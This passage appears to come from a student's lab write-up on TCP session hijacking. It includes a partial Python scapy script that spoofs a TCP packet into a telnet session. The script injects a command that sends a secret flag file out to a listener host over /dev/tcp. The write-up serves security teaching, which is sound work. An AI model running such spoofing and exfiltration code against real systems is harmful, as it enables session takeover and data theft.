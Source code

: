     - ![flag is printed](images/tcp_session_hijack_flag_printed.png)

## Task 3 Optional: Automating TCP Session Hijacking
- We are asked to automate the TCP session hijacking using a python script
- I adapted the earlier python script `auto_tcp_hijack.py` that sniffs the packets and spoofs the TCP packet to inject the command into the telnet session
    - ```python
        #!/usr/bin/env python3
        from scapy.all import *
        import time
        import threading

        sequenceNumber = 0
        ackNumber = 0
        sourcePort = 0
        lastPacketTime = None
        timeout = 10 
        done = False

        def hijackConnection():
            """Crafts and sends a TCP A packet to terminate the connection."""
            global sequenceNumber, ackNumber, sourcePort, done
            print(f"\n[!] No packets seen for {timeout} seconds. Sending hijack command packet...")
            ip = IP(src="10.9.0.5", dst="10.9.0.6")
            # uses last seen sequence number and port to target the connection
            tcp = TCP(sport=sourcePort, dport=23, flags="A", seq=sequenceNumber, ack=ackNumber)
            data = "\ncat /secret/flag.txt > /dev/tcp/10.9.0.1/9090\n"
            pkt = ip/tcp/data
            print("[+] Hijack packet details:")
            ls(pkt)
            